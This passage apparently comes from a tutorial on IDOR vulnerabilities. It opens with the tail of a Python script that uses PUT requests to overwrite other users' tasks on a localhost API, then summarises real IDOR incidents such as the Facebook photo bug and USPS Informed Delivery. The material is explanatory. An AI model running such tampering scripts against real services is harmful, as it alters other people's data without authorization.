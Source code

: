    ```python
           'priority': 'URGENT',
           'status': 'TODO'
       }
       
       for task_id in task_ids:
           try:
               response = requests.put(
                   f'http://localhost:3000/api/tasks/{task_id}',
                   headers=headers,
                   json=malicious_data
               )
               
               if response.status_code == 200:
                   print(f"Successfully corrupted task {task_id}")
               else:
                   print(f"Failed to corrupt task {task_id}: {response.status_code}")
                   
           except requests.exceptions.RequestException as e:
               print(f"Error corrupting task {task_id}: {e}")
   
   # Execute corruption attack
   target_tasks = [5, 10, 15, 20, 25]  # Tasks belonging to other users
   corrupt_tasks(token, target_tasks)
   ```

## Real-World Examples

### Case Study 1: Facebook Privacy Bug (2018)

**Impact**: 6.8 million users affected
**Attack Vector**: IDOR in photo API
**Data Exposed**: Private photos from users' accounts

**Technical Details**:
- API endpoint used sequential photo IDs
- Missing authorization checks allowed access to any photo
- Attackers could enumerate and download private photos
- Bug existed for 12 days before discovery

### Case Study 2: USPS Informed Delivery (2018)

**Impact**: 60 million users affected
**Attack Vector**: IDOR in account management system
**Data Exposed**: Personal information and mail images

**Technical Details**:
- Account IDs were sequential and predictable
- No authorization checks on account access endpoints
- Attackers could view anyone's mail and personal data
- Simple URL manipulation exposed sensitive information

### Case Study 3: Shopify Partner Dashboard (2020)
